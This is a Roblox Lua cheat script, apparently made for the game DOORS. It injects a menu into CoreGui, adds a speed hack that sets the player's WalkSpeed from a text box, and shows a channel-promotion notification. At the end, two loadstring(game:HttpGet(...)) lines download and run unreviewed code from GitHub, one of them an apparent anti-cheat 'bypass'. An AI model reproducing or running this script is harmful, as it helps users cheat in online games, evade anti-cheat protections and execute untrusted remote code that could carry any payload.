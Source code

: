 local IMAGE = "rbxassetid://12209991869"

local Positions = UDim2.new(0.822025776, 0, 0.0401606411, 0)

local Sizes = UDim2.new(0, 76, 0, 70)

local KINGHUBMOBILE = Instance.new("ScreenGui")

local _100x100 = Instance.new("Frame")

local ImageButton = Instance.new("ImageButton")

KINGHUBMOBILE.Name = "DOORS"

KINGHUBMOBILE.Parent = game:WaitForChild("CoreGui")

KINGHUBMOBILE.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

_100x100.Name = "100x100"

_100x100.Parent = KINGHUBMOBILE

_100x100.BackgroundColor3 = Color3.fromRGB(0,25 + 207 ,580 -325)

_100x100.Position = Positions

_100x100.Size = UDim2.new(0, 76, 0, 70)

ImageButton.Parent = _100x100

ImageButton.BackgroundColor3 = Color3.fromRGB(0,25 + 207 ,580 -325)

ImageButton.Size = Sizes

ImageButton.Image = IMAGE

ImageButton.MouseButton1Down:connect(function()
	local vim = game:service("VirtualInputManager")	vim:SendKeyEvent(true, "RightShift", false, game)
	local vim = game:service("VirtualInputManager")
	vim:SendKeyEvent(fales, "RightShift", false, game)
end)
-- Made By Yieviro92

game:GetService("StarterGui"):SetCore("SendNotification",{
    Title = "HEY BRO!";
    Text = "SUB CHANNEL YIEVIRO92CREPPY";
    Duration = 15;
})

local StarterGui = Instance.new("ScreenGui")
local Frame = Instance.new("Frame")
local UICorner = Instance.new("UICorner")
local TextButton = Instance.new("TextButton")
local UICorner_2 = Instance.new("UICorner")
local TextButton_2 = Instance.new("TextButton")
local UICorner_3 = Instance.new("UICorner")
local TextLabel = Instance.new("TextLabel")
local TextBox = Instance.new("TextBox")
local UICorner_4 = Instance.new("UICorner")
local TextLabel_2 = Instance.new("TextLabel")
local TextButton_3 = Instance.new("TextButton")
local UICorner_5 = Instance.new("UICorner")

--Propers

StarterGui.Name = "StarterGui"
StarterGui.Parent = game.CoreGui
StarterGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

Frame.Parent = StarterGui
Frame.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
Frame.BorderColor3 = Color3.fromRGB(255, 0, 0)
Frame.Position = UDim2.new(0.219810039, 0, 0.233396575, 0)
Frame.Size = UDim2.new(0.560379922, 0, 0.527514219, 0)
Frame.Visible = false
Frame.Active = true
Frame.Draggable = true

UICorner.Parent = Frame

TextButton.Parent = Frame
TextButton.BackgroundColor3 = Color3.fromRGB(255, 0, 0)
TextButton.Position = UDim2.new(0.0895883814, 0, 0.712230206, 0)
TextButton.Size = UDim2.new(0.343825668, 0, 0.172661871, 0)
TextButton.Font = Enum.Font.Cartoon
TextButton.Text = "🚷"
TextButton.TextColor3 = Color3.fromRGB(255, 255, 255)
TextButton.TextScaled = true
TextButton.TextSize = 14.000
TextButton.TextWrapped = true

UICorner_2.Parent = TextButton

TextButton_2.Parent = Frame
TextButton_2.BackgroundColor3 = Color3.fromRGB(25, 255, 0)
TextButton_2.Position = UDim2.new(0.544794202, 0, 0.712230206, 0)
TextButton_2.Size = UDim2.new(0.343825668, 0, 0.172661871, 0)
TextButton_2.Font = Enum.Font.Cartoon
TextButton_2.Text = "✅"
TextButton_2.TextColor3 = Color3.fromRGB(255, 255, 255)
TextButton_2.TextScaled = true
TextButton_2.TextSize = 14.000
TextButton_2.TextWrapped = true

UICorner_3.Parent = TextButton_2

TextLabel.Parent = Frame
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel.BackgroundTransparency = 1.000
TextLabel.Size = UDim2.new(1, 0, 0.179856122, 0)
TextLabel.Font = Enum.Font.Cartoon
TextLabel.Text = ""
TextLabel.TextColor3 = Color3.fromRGB(255, 0, 0)
TextLabel.TextScaled = true
TextLabel.TextSize = 14.000
TextLabel.TextWrapped = true

TextBox.Parent = Frame
TextBox.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextBox.Position = UDim2.new(0.256658584, 0, 0.323741019, 0)
TextBox.Size = UDim2.new(0.484261513, 0, 0.179856122, 0)
TextBox.Font = Enum.Font.Cartoon
TextBox.PlaceholderText = ""
TextBox.Text = ""
TextBox.TextColor3 = Color3.fromRGB(97, 97, 97)
TextBox.TextScaled = true
TextBox.TextSize = 14.000
TextBox.TextWrapped = true

UICorner_4.Parent = TextBox

TextLabel_2.Parent = TextBox
TextLabel_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_2.BackgroundTransparency = 1.000
TextLabel_2.Position = UDim2.new(0.0765053779, 0, 1, 0)
TextLabel_2.Size = UDim2.new(0, 106, 0, 27)
TextLabel_2.Font = Enum.Font.Cartoon
TextLabel_2.Text = ""
TextLabel_2.TextColor3 = Color3.fromRGB(255, 0, 0)
TextLabel_2.TextScaled = true
TextLabel_2.TextSize = 14.000
TextLabel_2.TextWrapped = true

TextButton_3.Parent = StarterGui
TextButton_3.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
TextButton_3.BorderColor3 = Color3.fromRGB(255, 0, 0)
TextButton_3.Position = UDim2.new(-0.000928521913, 0, 0.488205522, 0)
TextButton_3.Size = UDim2.new(0, 85, 0, 37)
TextButton_3.Font = Enum.Font.Cartoon
TextButton_3.Text = "ADD SPEED"
TextButton_3.TextColor3 = Color3.fromRGB(255, 0, 0)
TextButton_3.TextScaled = true
TextButton_3.TextSize = 14.000
TextButton_3.TextWrapped = true

UICorner_5.Parent = TextButton_3

-- Scripts:

local function CHCRPGN_fake_script() -- TextButton.LocalScript 
	local script = Instance.new('LocalScript', TextButton)
	script.Parent.MouseButton1Click:Connect(function()
		script.Parent.Parent.Visible = false
	end)	
end
coroutine.wrap(CHCRPGN_fake_script)()
local function YDDLQYT_fake_script() -- TextButton_2.LocalScript 
	local script = Instance.new('LocalScript', TextButton_2)
	local player = game.Players.LocalPlayer
	script.Parent.MouseButton1Click:Connect(function()
		wait()
		script.Parent.Parent.Visible = false
		game.Players.LocalPlayer.character.Humanoid.WalkSpeed = script.Parent.Parent.TextBox.Text
	end)
end
coroutine.wrap(YDDLQYT_fake_script)()
local function RZIFDD_fake_script() -- Frame.LocalScript 
	local script = Instance.new('LocalScript', Frame)
	local Frame = script.Parent
	Frame.Active = true
	Frame.Draggable = true
end
coroutine.wrap(RZIFDD_fake_script)()
local function RZJF_fake_script() -- TextButton_3.LocalScript 
	local script = Instance.new('LocalScript', TextButton_3)
	script.Parent.MouseButton1Click:Connect(function()
		script.Parent.Parent.Frame.Visible = true
	end)
end
coroutine.wrap(RZJF_fake_script)()
loadstring(game:HttpGet(("https://raw.githubusercontent.com/yieviro92creepy/Yedi5/main/Oo4"),true))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/finngameandglitch/bypass/main/bypass'))()
